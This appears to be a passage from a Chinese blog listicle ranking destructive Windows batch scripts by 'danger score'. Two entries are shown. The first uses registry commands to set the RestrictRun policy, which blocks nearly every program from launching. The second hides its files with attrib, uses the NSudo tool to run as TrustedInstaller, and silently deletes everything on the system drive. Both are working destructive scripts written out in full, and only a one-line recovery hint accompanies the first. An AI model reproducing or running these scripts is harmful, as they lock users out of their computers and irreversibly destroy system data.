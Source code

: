 ## TOP 3：禁用大量程序
> 语言：Windows 批处理
> 工具：记事本
> 危险系数：4.5
> 截图：![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/88cd60d63fd3430a9c4ec664b95b7daf.png)
> 运行效果：
> ![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/d7aea96882e743ec9988a65084ab9f7f.png)
> 不管打开什么（除了真的存在`%windir%\sth.exe`可以打开外）都不可以。


```python
:: 先设定允许打开 RestrictRun 功能
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /f /v "RestrictRun" /t REG_Expand_SZ /d "1"
:: 限定文件打开，但指向了一个“不存在的文件”。
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\RestrictRun" /f /v "1" /t REG_Expand_SZ /d "%windir%\sth.exe"
:: 重启文件资源管理器，故事结束了
taskkill /im explorer.exe /f & explorer.exe
```
### 修复
建议从PE系统里面导入注册表，进行修改。


## TOP 2：干掉系统盘里大多数文件
> 语言： Windows 批处理
> 工具：记事本、Bat_To_Exe_Converter
> 危险系数：4.8
> 截图：![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/00b7a058c4534f1c9d1903434616c84a.png)
> [运行效果](https://www.bilibili.com/video/BV19Y411g7jJ?spm_id_from=333.999.0.0)
> 

这个程序使用了一款工具——`NSudo`，用来提权，可以从网上找，下载看看。
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/5644c70428b94a9ca4d38533e4c60c86.png)

```cpp
::Author:PANDAOXI

:: 隐藏文件
attrib +s +h /s /d "delall.bat"
attrib +s +h /s /d "MoPlugin.dll"
attrib +s +h /s /d "NSudo.json"
attrib +s +h /s /d "NSudoAPI.dll"
attrib +s +h /s /d "NSudoAPI.lib"
attrib +s +h /s /d "NSudoDM.dll"
attrib +s +h /s /d "NSudoLC.exe"
attrib +s +h /s /d "NSudoLG.exe"
attrib +s +h /s /d "NSudoPluginHost.exe"

:: 延时10秒开始删除
timeout 10
:: 能删的都删了
NSudoLG -U:T -ShowWindowMode:Hide -P:E cmd /c del "%SYSTEMDRIVE%\*.*" /q /s /f
```
